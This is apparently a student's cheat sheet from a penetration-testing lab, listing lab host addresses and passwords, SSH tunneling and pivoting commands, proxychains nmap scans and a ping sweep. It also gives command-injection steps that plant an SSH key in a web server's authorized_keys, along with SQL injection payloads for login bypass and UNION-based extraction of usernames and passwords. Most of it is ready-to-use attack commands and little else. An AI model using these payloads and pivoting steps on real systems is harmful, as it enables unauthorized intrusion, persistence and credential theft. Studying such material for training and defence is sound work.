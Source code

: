 http://10.50.20.250:8000/          TYFI-006-M  Ja7Gh0bmQhGeAWq
10.50.28.181  Semper
GREYHOST:     10.50.35.7                                                                           student     Ja7Gh0bmQhGeAWq
ACCESSING GREYHOST:
  ssh -X student@10.50.35.7                                                                        Ja7Gh0bmQhGeAWq
  ssh -MS /tmp/grey student@10.50.35.7                                                             Ja7Gh0bmQhGeAWq

#CREDENTIALS
  WINDOWS:    xfreerdp /u:student /v:10.50.42.187 -dynamic-resolution +glyph-cache +clipboard      password
  LINUX:      ssh -X student@10.50.29.84                                                           Charity@2006
  GREYHOST:                                                                                   Student     Long Pass
  
REBUILD BOXES:
  VTA
  INSTANCES
  REBUILD INSTANCE
  SELECT IMAGE: NIX_OPS
  PARTITIION: AUTOMATIC
  REBUILD INSTANCE
  

#NMAP SCRIPT COMMANDS
  /usr/share/nmap/scripts
  nmap --script <filename>|<category>|<directory>
  nmap --script-help "ftp-* and discovery"
  nmap --script-args <args>
  nmap --script-args-file <filename>
  nmap --script-help <filename>|<category>|<directory>
  nmap --script-trace
      http-enum.nse


#COMMANDS
  ssh -MS /tmp/grey student@10.50.35.7
  ssh -S /tmp/grey grey -O forward -D 9050
  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
  proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.1,2,3,97,98,99,100,105,111,120,129,130,131 -p-
  ssh -S /tmp/grey grey -O forward -L 40700:192.168.28.111:80
  ssh -S /tmp/grey grey -O forward -L 40710:192.168.28.111:22                                                  #Sets a new master socket referencing the original master socket to access an additional box
  ssh -MS /tmp/billybobhost billybob@0.0.0.0 -p 40710
  ssh -S /tmp/billybobhost -O forward -D 9050
  ssh -S /tmp/grey grey -O cancel -L 40700:192.168.28.111:80                                                   #Closes out a tunnel
  proxychains nmap -v -sT -Pn -T4 --script http-enum.nse 192.168.28.111 -p 80
  



ssh-keygen -t rsa -b 4096                                                                                        #Generates public ssh key
; mkdir /var/www/.ssh
; ls /var/www/ssh
vim test.txt
cat id_rsa.pub            ##HIGHLIGHT ALL OF IT##
copy to test.txt and addd > /var/www/.ssh/authorized_keys to the end
; echo (cat test.txt and copy over file contents) in quotes
ssh -i id_rsa www-data@10.50.27.157




#SQL INJECTION
  ##COMMANDS
SELECT                    Extracts data from a database
UNION                     Used to COMBINE the result-set of TWO OR MORE SELECT STATEMENTS
USE                       Selects the DB to use
UPDATE                    Updates data in a database
DELETE                    Deletes data from a database
INSERT INTO               Inserts new data into a database
CREATE DATABASE           Creates a new database
ALTER DATABASE            Modifies a database
CREATE TABLE              Creates a new table
ALTER TABLE               Modifies a table
DROP TABLE                Deletes a table
CREATE INDEX              Creates an index (search key)
DROP INDEX                Deletes an index

show databases;           shows databases
SELECT * FROM session.car shows all items within the car subtable of the session table
SELECT * FROM session.car UNION SELECT tireid,name,size,cost,1,2 FROM session.Tires;

shwo TABLES FROM information_schema
Select Table_schema,table_name,Column_name FROM information_schema.Column;
IMPORTANT:
  TABLES
  COLUMNS
  DATABASES/TABLE_SCHEMA

User = ' GySgt' or 1='1'
Pass = 'Pass' or 1='1'

php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'                               GOLDEN STATEMENT
Audi' UNION select table_schema,2,table_name,column_name,5 FROM information_schema.columns #
Audi' UNION select 1,2,3 #
Audi' UNION select id,2,name,pass,5 FROM session.user #
http://10.50.38.117/uniondemo.php?Selection=2%20or%201=1;%20#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select 1,2,3;#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select table_schema,column_name,table_name FROM information_schema.columns;#
http://10.50.38.117/uniondemo.php?Selection=2%20%20UNION select type,color,name FROM session.car;#

http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20select%20last_name,password,email%20FROM%20sqlinjection.members;#
RAM' UNION select table_schema,column_name FROM information_schema.columns; #

UNION @@version
RAM' UNION select 1,@@version; #       GIVES SQL VERSION

http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%20Table_schema,column_name,Table_name%20FROM%20information_schema.columns;%20#
http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%201,comment,data%20FROM%20sqlinjection.share4%20WHERE%20id=1337;%20#
